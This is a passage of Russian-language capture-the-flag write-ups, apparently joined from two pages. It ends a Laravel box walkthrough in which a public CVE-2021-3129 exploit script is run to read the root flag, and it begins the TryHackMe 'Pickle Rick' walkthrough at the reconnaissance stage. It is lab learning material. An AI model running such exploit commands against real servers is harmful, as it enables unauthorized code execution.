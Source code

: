 Мы видим веб-страницу Laravel, если ищем «Эксплойт переадресации портов Lavarel», мы находим [https://github.com/nth347/CVE-2021-3129_exploit](https://github.com/nth347/CVE-2021-3129_exploit) . Итак, давайте попробуем это

```
[kali@kali ~]$ /exploit.py http://localhost:8080 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2776, done.
remote: Counting objects: 100% (1118/1118), done.
remote: Compressing objects: 100% (640/640), done.
remote: Total 2776 (delta 459), reused 955 (delta 334), pack-reused 1658
Receiving objects: 100% (2776/2776), 412.30 KiB | 1.93 MiB/s, done.
Resolving deltas: 100% (1101/1101), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited
```



---
# Pickle Rick

**Плошадка:** https://tryhackme.com
**Уровень:** Easy

![[Pasted image 20240417165524.png]]

**Задание 1 (Пикл Рик)**

Это тематическое задание «Рик и Морти» требует от вас использовать веб-сервер и найти 3 ингредиента, которые помогут Рику приготовить зелье, чтобы снова превратиться в человека из рассола.
Разверните виртуальную машину для этой задачи и изучите веб-приложение: `<ip>`

Вы также можете получить доступ к веб-приложению, используя следующую ссылку: [https://10-10-216-57.p.thmlabs.com](https://10-10-216-57.p.thmlabs.com/) (оно обновится после полного запуска машины)

## Разведка

**Домашняя страница**

Здесь особо не на что смотреть и чем заняться. Итак, давайте двигаться дальше.

**Исходный код**

Давайте посмотрим на исходный код. Здесь находим имя пользователя:

![[Pasted image 20240417165849.png]]

Давайте обязательно это запомним. Но пока использовать его негде.

Веб-страницы обычно запускаются через порт 80 (HTTP) и 443 (HTTPS), но их можно запускать через любой порт, поэтому давайте воспользуемся NMap, чтобы узнать больше.
